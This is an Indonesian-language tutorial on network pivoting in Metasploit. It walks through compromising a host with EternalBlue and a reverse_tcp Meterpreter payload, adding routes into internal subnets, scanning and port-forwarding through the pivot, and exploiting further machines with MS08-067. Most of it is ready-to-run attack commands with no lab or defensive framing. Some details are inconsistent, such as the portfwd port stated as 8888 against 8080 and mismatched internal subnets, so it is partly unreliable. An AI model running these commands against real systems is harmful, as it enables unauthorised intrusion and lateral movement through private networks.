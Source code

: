 # Pivoting dan Route Command di Metasploit

## A. Apa Itu Pivoting?

[Pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting) adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

Ada dua jenis pivoting:
- Layer 3 pivoting (routing) -> menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (`ARP spoofing`, `bridge`) -> biasanya dilakukan dengan tools seperti [ettercap](https://www.ettercap-project.org/) atau [bettercap](https://www.bettercap.org/).

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

Contoh:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Dapatkan Meterpreter session ke host A (misalnya `192.168.1.10`).

### 2. Tambahkan Route Internal dengan `autoroute`

Misalnya, mesin A bisa melihat jaringan internal `192.168.1.0/24`:

```
meterpreter > run autoroute -s 192.168.1.0/24
```

**Keterangan:**
- `-s` : (subnet) jaringan internal target: `192.168.1.0/24`.

Atau manual:

```
meterpreter > background
msf6 > route add 192.168.1.0 255.255.255.0 1
```

Angka `1` adalah session ID.

Cek route yang sudah ada:

```
msf6 > route print
```

### 3. Gunakan `auxiliary/scanner` Melalui Route

Kamu sekarang bisa melakukan scanning ke internal network!

Contoh scanning host internal:

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1-254
set PORTS 22,80,445
run
```

Ini akan meng-scan port (`22`,`80`,`445`) mulai dari host `192.168.1.1` sampai dengan host `192.168.1.254`.

### 4. Port Forwarding (Opsional)

Jika kamu ingin mengakses service internal dari browser (misalnya Web UI internal), gunakan port forward:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

**Keterangan:**
- `-l` : Port listener: `8888`.
- `-p` : Port tujuan di mesin target: `80`.
- `-r` : IP target di jaringan internal korban yang akan diakses: `192.168.10.10`. 

Lalu, buka di browser kamu:

```
http://127.0.0.1:8080
```

### 5. Lanjutkan Eksploitasi ke Mesin Internal

Setelah tahu ada mesin internal dengan service aktif, kamu bisa lanjut menggunakan exploit yang sesuai:

```
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.10.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Tips Tambahan

- Gunakan `arp` di Meterpreter untuk melihat host yang pernah diakses:
  ```
  meterpreter > arp
  ```
- Gunakan netstat untuk lihat koneksi:
  ```
  meterpreter > netstat
  ```
- Bisa chaining pivot lebih dari satu kali (multi-hop), tapi perlu VPN atau SOCKS proxy (contoh: `auxiliary/server/socks_proxy`).
